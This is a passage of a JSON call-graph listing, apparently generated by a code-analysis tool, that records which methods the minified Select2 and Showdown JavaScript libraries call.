"static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_generateId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_placeContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_bindAdapters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_registerDomEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_registerDataEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_registerSelectionEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_registerDropdownEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_registerResultsEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_registerEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_syncAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "insertAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_resolveWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_syncA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_syncS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toggleDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDisabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_isChangeMutation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_isChangeMutation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDisabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDisabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isDisabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hasFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "ids"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "dashes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "mandatory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "metadata"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "resetOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isUndefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "encodeEmailAddress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "encodeEmailAddress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "subParser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "unescapeHTMLEntities"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/showdown-2.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 